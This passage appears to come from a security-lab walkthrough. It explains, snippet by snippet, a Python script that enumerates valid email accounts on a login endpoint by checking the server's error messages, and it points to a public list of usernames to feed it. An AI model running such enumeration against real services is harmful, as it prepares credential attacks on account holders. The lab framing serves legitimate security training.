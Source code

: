 - **variables initialization**: an array stores email addresses confirmed to be valid.

```python
valid_emails = []
```

- **Invalid_Error**: A string contains the specific error message used to identify invalid emails.

```python
invalid_error = 'Email does not exist'
```
#### Main Loop:

- The script reads email addresses from a provided file and checks each for validity using the `check_email` function. 

```python
for email in email_list:
    check_email(email)
```
#### Crafting and Sending Email Requests

- For each email, the script constructs a data dictionary that includes the email addresses, a placeholder password, and a command to execute the 'login' function.

```python
data = {'username': email, 'password': 'password', 'action': 'login'}
response = requests.post(url, headers=headers, data=data)
```
#### Response Handling:

- The response from the server is processed to check if the provided email exists, based on the presence of the specific error message in the JSON data.

```python
if invalid_error in response.text:
    print(f"{email} is invalid.")
else:
    print(f"{email} is valid.")
    valid_emails.append(email)
```
#### Character Validation:

- Emails confirmed to exist are added to the `valid_emails` list, with each email's validity logged to the console.

```python
for email in valid_emails:
    print(f"Valid email found: {email}")
```

We can use a common list of emails from this [repository](https://github.com/nyxgeek/username-lists/blob/master/usernames-top100/usernames_gmail.com.txt).

![](https://i.imgur.com/tDgORKY.png)

Once you've downloaded the payload list, use the script on the AttackBox or on your own machine to check for valid email addresses. 
